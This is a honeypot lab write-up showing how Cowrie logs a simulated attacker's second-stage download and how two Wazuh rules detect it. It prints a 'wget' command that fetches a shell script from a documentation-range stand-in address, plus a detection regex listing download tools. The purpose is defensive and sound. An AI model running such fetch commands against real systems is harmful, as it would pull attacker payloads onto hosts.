

# Pulling down a second stage

## What happened

After the attacker had a look around the box, they tried to drag something else
onto it. In my run that was a `wget` to a remote address:

```
wget http://203.0.113.10/x.sh
```

That `x.sh` is the giveaway. A shell script being fetched onto a freshly
compromised server is almost always stage two: a miner, a bot, a backdoor,
something the attacker wants running after they leave. The address I used,
`203.0.113.10`, is in a range reserved for documentation (TEST-NET-3), so
nothing was ever really downloaded, but the attempt is what we care about.

## What the honeypot recorded

Cowrie logs the command as a `command.input` event with the full text:

```json
{"eventid":"cowrie.command.input","input":"wget http://203.0.113.10/x.sh",
 "src_ip":"172.18.0.6", ...}
```

If the download actually completes, Cowrie also writes a separate
`cowrie.session.file_download` event with the URL it fetched. In this run that
second event did not appear, because the documentation address does not serve
anything, which is the honest outcome and exactly what I expected.


## How Wazuh caught it

I split this into two rules on purpose. The first watches the command the
attacker typed:

```xml
<rule id="100108" level="10">
  <if_sid>100106</if_sid>
  <field name="input" type="pcre2">(?i)\b(wget|curl|tftp|ftpget|scp|fetch)\b</field>
  <description>Cowrie: remote payload download attempt: $(input)</description>
  <mitre><id>T1105</id></mitre>
</rule>
```

The second one (rule 100109) fires off the `file_download` event, so it only
goes off when a file genuinely came down. Having both means I can tell the
difference between "they tried to grab something" and "they actually grabbed
something", which is a real distinction during triage. In this run only 100108
fired, which lines up with the download never completing:

```
20:27:49  rule 100108  level 10  wget http://203.0.113.10/x.sh   T1105
```



## MITRE ATT&CK

- T1105 Ingress Tool Transfer (bringing an external file onto the host)

## What I would do next as an analyst

The URL is the first thing I want. Even on a failed attempt, the address and
filename are intel: I would check the host and the path against threat feeds,
and if anything had actually downloaded I would pull the file from Cowrie's
captured downloads and detonate it somewhere safe to see what it does. After
that it is about scope. Did the same address try this anywhere else, and is the
outbound destination something I can block at the firewall or proxy so the next
attempt fails even if a box does get popped. On the detection side, the command
attempt and the completed download being two separate rules is deliberate, since
the completed one deserves to page someone and the attempt is more of a "watch
this session" signal.
